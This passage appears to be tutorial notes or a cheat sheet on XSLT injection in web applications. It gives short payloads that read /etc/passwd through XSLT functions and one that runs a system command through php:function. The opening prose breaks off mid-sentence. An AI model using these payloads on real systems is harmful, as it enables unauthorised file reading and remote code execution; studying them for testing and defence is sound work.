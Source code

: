 ___
Suppose the web application stores the module information in an XML document and displays the data using XSLT processing. In that case, it might suffer from XSLT injection if our name is inserted without sanitization before XSLT processing. To confirm that, let us try to inject a broken XML tag to try to provoke an error in the web application. We can achieve this by providing `<`
# LFI

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

# Remote Code Execution (RCE)

```xml
<xsl:value-of select="php:function('system','id')" />
```



